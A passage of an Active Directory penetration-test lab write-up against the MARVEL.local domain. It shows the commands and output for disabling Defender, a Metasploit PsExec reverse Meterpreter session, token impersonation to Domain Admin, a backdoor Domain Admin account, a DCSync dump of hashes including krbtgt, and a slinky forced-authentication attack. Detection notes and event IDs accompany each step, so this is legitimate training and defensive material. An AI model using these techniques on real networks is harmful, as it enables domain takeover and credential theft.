

The proof the GPO was not enough on its own: with it applied, `Get-MpComputerStatus` on PUNISHER still reported real-time protection **on**, even though tamper protection was already off. The client kept re-arming it.



So protection had to be killed on the client directly, in the window before it flipped back.



Manual disable attempts, with their own friction:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -DisableScriptScanning   $true
Set-MpPreference -DisableOnAccessProtection $true   # parameter does not exist on this build
Get-MpComputerStatus | Select RealTimeProtectionEnabled, BehaviorMonitorEnabled, IsTamperProtected
```

> **❌ Registry disable denied**
> ```text
> reg add "HKLM\SYSTEM\CurrentControlSet\Services\WinDefend" /v Start /t REG_DWORD /d 4 /f
> ERROR: Access is denied.
> ```
> Direct registry disable of the WinDefend service is blocked. `Set-MpPreference -DisableOnAccessProtection` also errors — that parameter is not valid on this build. The reliable lever on 22H2 was the client-side UI toggle plus `Set-MpPreference -DisableRealtimeMonitoring`, re-applied because the client kept turning it back on.



### Success

Once real-time protection was actually down on PUNISHER, the same command landed:

```text
[*] 192.168.192.152:445 - Authenticating to 192.168.192.152:445 | MARVEL.local as user 'fcastle'...
[*] 192.168.192.152:445 - Selecting PowerShell target
[+] 192.168.192.152:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (255679 bytes) to 192.168.192.152
[*] Meterpreter session 1 opened (192.168.192.129:4444 -> 192.168.192.152:49827)

meterpreter > shell
C:\Windows\system32> whoami
nt authority\system
```

> **📝 "Service start timed out, OK if running a command" is a success, not an error**
> That `[+]` line means the payload ran as a non-service executable. The session lands a beat later. Do not re-run on top of it.

> **💡 Detection**
> 7045 service install on PUNISHER with a random service name, payload written to `\\PUNISHER\ADMIN$\<random>.exe` (Sysmon 11), 4648/4624 explicit-credential logon from commandBEAST, then 4672 as the service starts SYSTEM. The repeated 4625 failures (`0xc000006d`) from a single source during the dead-end phase look like a password spray on their own and would light up a SOC. Defender's `Commando.A!ml` quarantine event is itself a high-value alert.

MITRE: `T1021.002` (SMB/Admin Shares), `T1569.002` (Service Execution), `T1562.001` (Impair Defenses: Disable or Modify Tools).

---

## 8. Privilege Escalation — token impersonation to Domain Admin

**Theory.** SYSTEM on PUNISHER is local power, not domain power. The jump to the domain comes from whoever else left a live token on this box. `incognito` lists the tokens SYSTEM can borrow. A Domain Admin logged into this workstation at some point and left a delegation token behind.

```text
meterpreter > load incognito
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
MARVEL\fcastle
NT AUTHORITY\SYSTEM
...
```

Initially only `fcastle` and system accounts show. The Domain Admin token surfaces only after dropping back to SYSTEM context:

```text
meterpreter > impersonate_token marvel\\fcastle     # proof the extension works
meterpreter > shell -> whoami -> marvel\fcastle
meterpreter > rev2self
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
MARVEL\Administrator                                 # now visible
NT AUTHORITY\SYSTEM
...

meterpreter > impersonate_token marvel\\administrator
[+] Successfully impersonated user MARVEL\Administrator
meterpreter > shell -> whoami -> marvel\administrator
```

**Domain Admin achieved.**

> **🛑 Tiering failure is the real finding**
> A Domain Admin had no business logging into a tier-2 workstation. The leftover delegation token is exactly how one popped workstation becomes a popped domain. This is the single most important defensive lesson in the whole chain.

> **📝 rev2self matters**
> The DA token only appeared after `rev2self`. Interesting tokens appear and disappear with context — if the one you want is not listed, drop back to SYSTEM and list again. After SYSTEM on any box, `list_tokens` before anything flashy; the escalation is often already in memory.

> **💡 Detection**
> Token theft is quiet. The tell is indirect: a SYSTEM process on PUNISHER suddenly authenticating outbound as `MARVEL\Administrator` (4648/4624) right after a service-install event. Prevent rather than detect — Domain Admins never interactively log into workstations. Enforce with authentication silos, Protected Users, and logon restrictions so the token is never there to steal.

MITRE: `T1134.001` (Token Impersonation/Theft).

---

## 9. Persistence — backdoor DA and DCSync

**Objective.** A borrowed token dies with the session. Lock in the win: a stable account of our own, and a copy of the domain's secrets.

```text
# in the DA shell on PUNISHER
net user /add hawkeye Password1@ /domain
net group "Domain Admins" hawkeye /ADD /DOMAIN
```

```text
C:\Windows\system32> whoami
marvel\administrator
C:\Windows\system32> net user /add hawkeye Password1@ /domain
The command completed successfully.
C:\Windows\system32> net group "Domain Admins" hawkeye /ADD /DOMAIN
The command completed successfully.
```



> **❌ net usr**
> The first attempt was `net usr /add ...` (typo — `usr`, not `user`). NET printed its syntax help instead of doing anything. Corrected to `net user` on the next line.

### DCSync the DC

With a real Domain Admin credential, `secretsdump` uses the DRSUAPI replication protocol to pull NTDS.DIT — it asks the DC to replicate password data the way another DC would. No code runs on the DC.

```bash
impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.192.151
```

```text
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:...:920ae267e048417fcfe00f49ecbd4b33:::
krbtgt:502:...:7015fc17a890120f7b6ca1e56942b9ac:::
MARVEL.local\fcastle:1105:...:7facdc498ed1680c4fd1448319a8c04f:::
MARVEL.local\pparker:1106:...:7facdc498ed1680c4fd1448319a8c04f:::
hawkeye:1109:...:43460d636f269c709b20049cee36ae7a:::
HYDER-DC$:1000:...:835ea749c4e18ab4d720cc4db6738703:::
```



> **🛑 krbtgt captured**
> `krbtgt : 7015fc17a890120f7b6ca1e56942b9ac` is the Golden Ticket key. Any user, any group, arbitrary lifetime, forged offline. The only remediation is rotating krbtgt **twice**, and even that does not invalidate tickets already forged.

> **❌ secretsdump teardown crashes**
> ```text
> [-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING
> KeyError: 'Cryptodome.Cipher.AES'
> ```
> After the dump completes, cleanup can fail two ways. `ERROR_DEPENDENT_SERVICES_RUNNING (0x41b)` means RemoteRegistry had a dependent service still running when secretsdump tried to stop it — cosmetic, the data is already pulled. The `KeyError: 'Cryptodome.Cipher.AES'` deallocator traceback is a pycryptodome/impacket teardown bug thrown while the object is being garbage-collected; it does not affect the dump output, which is already printed above it.

> **⚠️ This is as loud as it gets**
> `net user /add` + Domain Admins add + a DCSync sourced from a workstation (not a DC). Every one of these is a high-fidelity alert on its own. Fine in a lab, caught instantly in a monitored domain. Documented here deliberately as a detection exercise.

> **💡 Detection — highest value in the whole chain**
> - **4720** (user created) immediately followed by **4728/4732** (added to a security-enabled group — Domain Admins) and **4722** (enabled). That tight sequence from one actor is a near-certain alert. Alert on any new member of Domain Admins, full stop.
> - **DCSync**: **4662** on the DC referencing the replication control-access GUIDs (`DS-Replication-Get-Changes` / `-All`) from a principal that is **not a Domain Controller**. If `hawkeye` or a workstation asks to replicate, that is DCSync.

MITRE: `T1136.002` (Create Domain Account), `T1098` (Account Manipulation), `T1003.006` (DCSync).

---

## 10. Post-DA tooling — Responder and NetExec

The domain is already owned by this point, so these are coverage and technique practice, not part of the critical path.

### Responder (post-DA)

```bash
sudo responder -I eth0 -dP
```

Caught nothing but a DHCP server beacon. Poisoning only pays off when a victim fires a name lookup during the capture window. Documented as a configured listener, not a result — the Responder that mattered was the capture in section 2.

### NetExec slinky

```bash
sudo netexec smb 192.168.192.152 -d marvel.local -u fcastle -p 'Password1!' \
  -M slinky -o NAME=test SERVER=192.168.192.129
```

```text
SMB  192.168.192.152  445  PUNISHER  [+] marvel.local\fcastle:Password1! (Pwn3d!)
SMB  192.168.192.152  445  PUNISHER  ADMIN$  READ,WRITE
```

`slinky` plants a malicious `.lnk` in a writable share whose icon path is a UNC to the attacker. When a user browses the folder, Explorer fetches the icon over SMB and leaks their NetNTLM hash to `SERVER`. Both this and Responder depend on a human doing something, so they only pay off where real users are.

> **📝 BloodHound — installed, not used for collection**
> `bloodhound.py` was pulled in as a dependency when `netexec` was installed (`apt install netexec` → `bloodhound.py  certipy-ad  python3-dploot`). No collection was run and no graph was generated during this engagement, so there is no BloodHound path analysis to show. Noted here for honesty rather than invented.

MITRE: `T1557.001` (slinky forced auth), `T1021.002`.

---

## Loot summary (in scope)

| Principal | Secret | Source | Note |
|---|---|---|---|
| MARVEL\fcastle | `Password1!` / NT `7facdc...a8c04f` | Responder + crack | domain user, local admin everywhere |
| MARVEL\pparker | NT `7facdc...a8c04f` | SAM / NTDS | same hash as fcastle |
| local Administrator (PUNISHER + SPIDERMAN) | NT `7facdc...a8c04f` | relay SAM dump | reused across both workstations |
| frankcastle / peterparker (local) | NT `64f12c...b949b` | SAM | shared password |
| MARVEL\SQLService | `MYpassword123#` | Kerberoast | cracked, never used |
| MARVEL\hawkeye | `Password1@` | attacker-created | backdoor Domain Admin |
| MARVEL\Administrator (domain) | NT `920ae267...4b33` | DCSync | from HYDER-DC |
| krbtgt | NT `7015fc17...b9ac` | DCSync | **Golden Ticket key** |

---

## Detection opportunities (cross-chain)

| Technique | Signal | Event IDs |
|---|---|---|
| LLMNR/NBT-NS poisoning | host answering name queries it does not own; honey-name lookup | — |
| NTLM relay | auth from host A arriving at host B; RemoteRegistry enable on target | 4624 (Type 3), 7036/7045 |
| Pass-the-hash spray | one source hitting many hosts, local auth, NTLM | 4624 (Type 3) |
| secretsdump | RemoteRegistry state change, remote SAM read | 7036/7045, 4624 |
| Kerberoasting | TGS request, RC4 etype 0x17, service account | 4769 |
| PsExec (msf) | random service name install, ADMIN$ write, SYSTEM start | 7045, Sysmon 11, 4672 |
| Defender tamper | real-time protection disabled, WinDefend reg write attempts | Defender Operational / 5001 |
| Rogue DA + group add | account created → added to Domain Admins → enabled | 4720, 4728/4732, 4722 |
| DCSync | DS-Replication-Get-Changes from a non-DC principal | 4662 |

---

## Honest gaps

> **⚠️ What a reviewer would still flag**
> - **The Kerberoast is a dead branch.** SQLService cracked but was never used. DA came from the token. Valid finding, not load-bearing — said so in section 6.
> - **Part of the PsExec win was operator error, then Defender.** Early failures were credential typos and firing at the attacker's own IP; the real blocker after that was Defender re-arming on 22H2. Both are documented rather than hidden.
> - **Persistence is deliberately loud.** `net user /add` + Domain Admins + a DCSync from a workstation would be caught immediately in a monitored domain. Kept as a detection exercise.
> - **BloodHound was installed but not used.** No collection, no graph. Stated plainly.
> - **The chain is two sessions, not one clean linear run.** Recon, Responder, relay and PtH on 2026-10-01; secretsdump, Kerberoast, PsExec, token theft and persistence on 2026-10-04. Framed that way on purpose.

---
